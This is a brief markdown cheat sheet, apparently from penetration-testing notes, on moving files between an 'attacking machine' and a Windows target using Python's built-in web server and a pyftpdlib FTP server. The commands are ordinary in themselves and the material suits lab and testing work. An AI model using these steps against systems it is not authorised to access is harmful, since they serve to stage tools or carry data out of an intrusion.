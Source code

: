 # python

## Hosting a Web server to Transfer Files, Execute the Command within the Folder the File is in

### Python2

```bash
python -m SimpleHTTPServer 80
```

### Python3

```bash
python3 -m http.server 80
```

## Using FTP to Transfer Files via Python

* install FTP Module

```bash
pip install pyftpdlib
```

* start server on attacking machine

```bash
python -m pyftpdlib -p 21
```

* On Windows machine connect to FTP

```bash
ftp <ip of ftp server>
```

